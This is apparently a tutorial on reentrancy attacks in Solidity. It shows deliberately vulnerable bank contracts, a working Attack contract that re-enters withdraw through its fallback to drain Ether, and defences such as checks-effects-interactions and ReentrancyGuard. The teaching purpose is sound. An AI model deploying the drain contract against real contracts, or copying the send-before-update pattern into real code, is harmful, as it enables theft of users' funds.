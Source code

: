 # Reentrancy Attack in Solidity

---

## 1. What is a Reentrancy Attack?

A **Reentrancy Attack** happens when a malicious contract repeatedly calls back into a vulnerable contract **before the first function call is finished**.
This allows the attacker to drain funds or manipulate contract state unexpectedly.

The classic case is when a contract:

1. Updates balances **after** sending Ether.
2. Allows external calls during execution.

---

## 2. Types of Reentrancy Attacks

### a) **Single-Function Reentrancy**

* Attacker repeatedly calls the same vulnerable function before state variables are updated.

**Vulnerable Contract Example:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

contract VulnerableBank {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 _amount) external {
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // ❌ Vulnerability: Ether sent before balance update
        (bool sent,) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] -= _amount;
    }
}
```

**Attack Contract:**

```solidity
contract Attack {
    VulnerableBank public bank;

    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }

    fallback() external payable {
        if (address(bank).balance > 1 ether) {
            bank.withdraw(1 ether); // Re-enters before balance update
        }
    }

    function attack() external payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw(1 ether);
    }
}
```

---

### b) **Cross-Function Reentrancy**

* The attacker uses **two different functions** to exploit the vulnerability.

**Example:**

```solidity
contract TimeLock {
    mapping(address => uint) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0, "No balance");

        (bool sent,) = msg.sender.call{value: bal}("");
        require(sent, "Failed");

        balances[msg.sender] = 0; // ✅ but happens after send
    }

    function transfer(address _to, uint _amount) public {
        require(balances[msg.sender] >= _amount, "Not enough balance");
        balances[msg.sender] -= _amount;
        balances[_to] += _amount;
    }
}
```

**Attack Flow:**

1. Call `withdraw()` → reenter.
2. During fallback, call `transfer()` to move balances around before withdrawal finishes.

---

### c) **Cross-Contract Reentrancy**

* The vulnerable contract calls another contract, which then calls back into the first one **before state is updated**.

**Example:**

```solidity
contract Victim {
    mapping(address => uint) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function pay(address _to, uint _amount) external {
        require(balances[msg.sender] >= _amount, "Not enough");

        (bool sent,) = _to.call{value: _amount}(""); 
        require(sent, "Failed");

        balances[msg.sender] -= _amount;
    }
}
```

Here, if `_to` is a malicious contract, it can reenter `pay()` before the sender’s balance is reduced.

---

### d) **Read-Only Reentrancy**

* The attacker **reenters during a `view` or `pure` function call** that relies on state which can be manipulated mid-execution.
* Example: Oracles or price feeds calling into contracts that depend on temporarily inconsistent state.

**Example (conceptual):**

```solidity
contract PriceOracle {
    uint public price = 100;

    function updatePrice(uint _newPrice) external {
        // Imagine this triggers external callback
        price = _newPrice;
    }

    function getPrice() external view returns (uint) {
        return price;
    }
}
```

An attacker could reenter during the update process if the oracle makes an external call.

---

## 3. Preventing Reentrancy

1. **Checks-Effects-Interactions Pattern**

   * Always update state before making external calls.

   ```solidity
   function withdraw(uint _amount) external {
       require(balances[msg.sender] >= _amount, "Insufficient");
       balances[msg.sender] -= _amount; // ✅ effect first

       (bool sent,) = msg.sender.call{value: _amount}("");
       require(sent, "Failed");
   }
   ```

2. **Reentrancy Guard (Mutex)**

   * Use a guard variable or OpenZeppelin’s `ReentrancyGuard`.

   ```solidity
   import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

   contract SecureBank is ReentrancyGuard {
       mapping(address => uint) public balances;

       function withdraw(uint _amount) external nonReentrant {
           require(balances[msg.sender] >= _amount, "Insufficient");
           balances[msg.sender] -= _amount;
           (bool sent,) = msg.sender.call{value: _amount}("");
           require(sent, "Failed");
       }
   }
   ```

3. **Avoid `call` for Sending Ether**

   * Use `transfer` or `send` (they forward only 2300 gas).
   * But be aware: since EIP-1884, gas costs have changed, so many prefer `call` with reentrancy guards.

---

## 4. Summary

* **Single-function reentrancy** → attacker repeatedly calls the same function.
* **Cross-function reentrancy** → attacker switches between functions.
* **Cross-contract reentrancy** → attacker exploits multiple contracts.
* **Read-only reentrancy** → attacker manipulates state during read calls.

✅ Best practice: **Use checks-effects-interactions and reentrancy guards**.

---
